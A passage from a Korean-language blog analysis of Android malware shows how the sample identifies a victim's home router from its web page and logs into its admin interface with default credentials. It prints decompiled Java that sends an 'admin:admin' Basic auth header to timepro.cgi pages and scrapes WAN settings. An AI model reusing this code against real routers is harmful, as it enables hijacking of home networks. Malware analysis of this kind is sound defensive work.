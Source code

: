 Response가 있다면 HTTP source code 에는 해당 DHCP 서버(공유기)의 정보가 있을 것입니다.

아래는 공유기 모델에 따라 HTTP 페이지에 적혀 있는 값입니다. 만약 일치하는 패턴이 있다면 **공유기의 모델이 어떤 것인지 유추할 수 있습니다.** 공격자는 이 패턴과 숫자를 매칭하여 저장합니다.

![13.png](/assets/2023-11-15-Android-malware-사마귀-해부학/13.png)

어떤 번호에 매칭되었느냐에 따라 다양한 method들이 호출되는데, 여기서 1번 i사의 공유기에 매칭 되었다고 가정해봅시다.

```java
if(v2 == 1) {
       this.a.e(v1.a);
       return;
       }

if(v2 == 2) {
      this.a.k(v1.a);
      return;
      }
...
```

매칭된 숫자에 따라 실행되는 method들이 달라집니다. 1번에 매칭되었으니 `a.e` method로 이동해봅시다.

매칭된 i사의 공유기의 Default Credential과 token 검증 방식으로 인증을 수행하기 위해 Request Header 생성, 이를 Default URL로 전달하고 있습니다. 각 공유기마다 Header의 조합과 URL 주소가 다르며, 일반적인 공유기 사용자가 관리 페이지의 Credential을 바꾸는 일은 흔치 않기 때문에 공격자는 공유기를 쉽게 관리자로 로그인 할 수 있습니다.

```java
void e(String arg14) {
        String[] v1 = new String[2];
        int v2 = 0;
        v1[0] = "Authorization";
        v1[1] = "Basic " + Base64.encodeToString("admin:admin".getBytes(), 0);
        a.b.e(arg14 + "/cgi-bin/timepro.cgi?tmenu=main_frame&smenu=main_frame", v1);
        String v4 = a.b.e(arg14 + "/cgi-bin/timepro.cgi?tmenu=netconf&smenu=wansetup", v1);
        ArrayList v7 = new ArrayList();
        int v8;
        for(v8 = 1; v8 <= 4; ++v8) {
            Matcher v9 = Pattern.compile("id=\"disabled_dynamicip" + v8 + ".*?value=\"(.*?)\"").matcher(v4);
            if(v9.find()) {
                v7.add(v9.group(1));
            }
        }

```
